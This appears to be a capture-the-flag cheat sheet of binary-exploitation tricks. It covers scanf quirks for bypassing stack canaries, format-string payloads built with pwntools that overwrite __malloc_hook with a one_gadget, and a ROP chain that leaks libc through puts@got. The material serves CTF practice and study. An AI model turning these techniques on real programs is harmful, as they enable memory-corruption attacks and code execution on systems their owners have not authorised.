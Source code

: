 # printf/scanf tricks
```c
scanf("%lf", &n); // passing non number(. or -) yields to keeping the value stored in n
		  // [!] useful for bypassing stack canaries
for(i=0; i<n; i++) {
	scanf("%lf", &arr[i]); // %lf -> stack canary can be bypassed
	scanf("%d", &arr[i]);  // %d -> passing . or - terminates every scanf after
}

printf("hello\x00there"); // prints "hello"
			  // printf format string (first arg) terminates on nullbyte
			  // [!] something to keep in mind while exploiting format strings

printf("%100000c"); // triggers malloc
```

# GDB/pwndbg/pwntools tricks
### Pwndbg print whole stack
```
telescope ($rbp-$rsp)/8+1
```
### Running with custom libc without custom linker
If running from pwntools script setting LD_PRELOAD usually works
```python3
gs = '''
c
b *__libc_start_main+391
set $rax = main
<set other breakpoints here>
c
'''

io = gdb.debug(elf.path, gdbscript=gs, env={"LD_PRELOAD" : libc.path})
```
If first method fails you could set rpath to path that holds custom libc with patchelf
```
patchelf --set-rpath `pwd` <binary>
```
If the binary crashes in `__libc_start_main` before `call rax` you can break before the crash and manually set `rax` to the address of main
```
b *__libc_start_main+391
set $rax = main
```
### Tired of writing format string exploits?
Pwntools offers less painful alternative :)
https://docs.pwntools.com/en/stable/fmtstr.html
```python3
fmtstr_payload(8, {__malloc_hook : one_gadget}, write_size="byte")
```

# Leaking libc
This ropchain prints newline and then leaks address of puts from libc. The libc offset is then easily calculated by substracting puts offset from leaked address.
```python3
buf += p64(0x00000000004010a3) 		# pop rdi; ret; 
buf += p64(0x400020) 			# empty line to print -> points to start of .text section
buf += p64(elf.symbols["puts"]) 	# print newline
buf += p64(0x00000000004010a3) 		# pop rdi; ret; 
buf += p64(elf.got["puts"]) 		# rdi = *puts@got
buf += p64(elf.symbols["puts"])
buf += p64(0x000000000040063e) 		# ret; 
buf += p64(elf.symbols["fill"]) 	# call fill() (vulnerable function) for second stage
```
### Not sure which libc version is on remote system?
Leak any libc function from .got table and check with https://libc.blukat.me/

Still not sure?
Leak more libc functions.
### No shellcode, no ropchain? No problem
Use one_gadget https://github.com/david942j/one_gadget
to overwrite whatever address you can control execution with

# More tips
https://ropemporium.com/guide.html

https://github.com/Naetw/CTF-pwn-tips
